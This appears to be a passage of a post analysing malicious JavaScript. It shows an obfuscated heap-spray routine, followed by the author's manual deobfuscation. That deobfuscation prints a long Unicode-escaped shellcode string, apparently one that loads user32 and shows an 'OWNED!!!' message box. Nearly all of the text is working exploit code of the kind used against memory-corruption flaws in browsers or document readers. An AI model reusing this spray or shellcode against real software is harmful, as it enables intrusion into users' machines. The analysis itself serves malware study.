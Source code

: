 DPwxazRhwbQGu = new Array();

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA&lt;100;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) DPwxazRhwbQGu[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = MOysyGgYplwyZzNdETHwkru + ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv;

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=142;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA&gt;=0;--EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += unescape("%ub550%u0166");

bGtvKT = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length + 20
while (zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length &lt; bGtvKT) zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf += zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;

Juphd = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, bGtvKT);
QCZabMzxQiD = zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.substring(0, zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf.length-bGtvKT);

while(QCZabMzxQiD.length+bGtvKT &lt; 0x40000) QCZabMzxQiD = QCZabMzxQiD+QCZabMzxQiD+Juphd;

FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE = new Array();

for (EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA=0;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA&lt;125;EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA++) FovEDIUWBLVcXkOWFAFtYRnPySjMblpAiQIpweE[EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA] = QCZabMzxQiD + zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf;
</code></pre><p>Due to the level of obfuscation, I tried to debofuscate it manually:</p><pre><code class="language-js">var var1 = "";
var var2 = "";
var var3 = unescape("%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff");
